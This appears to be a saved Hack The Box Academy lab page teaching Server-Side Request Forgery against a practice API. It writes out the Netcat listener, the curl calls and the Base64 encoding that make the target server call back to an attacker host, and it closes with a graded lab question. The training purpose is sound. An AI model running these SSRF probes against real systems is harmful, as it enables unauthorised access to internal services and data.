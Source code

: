 ```yaml
---
created: 2023-12-18T16:23:19 (UTC -08:00)
tags: []
source: https://enterprise.hackthebox.com/academy-lab/7282/3329/modules/17/88
author: 
---
```


# HTB Enterprise

> ## Excerpt
> Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

---
## Server-Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

-   Interacting with known internal systems
-   Discovering internal services via port scans
-   Disclosing local/sensitive data
-   Including files in the target application
-   Leaking NetNTLM hashes using UNC Paths (Windows)
-   Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. Our [Server-side Attacks](https://enterprise.hackthebox.com/academy-lab/7282/preview/modules/145) module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.

```shell
p3ta@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell
p3ta@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.

```shell
p3ta@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.

```shell
p3ta@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

```shell
p3ta@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

As time allows, try to provide APIs with input in various formats/encodings.
# Question 
```
Can you leverage the SSRF vulnerability to identify port 3002 listening locally on the web server? Answer format: Yes, No
```

![[Pasted image 20231218162432.png]]
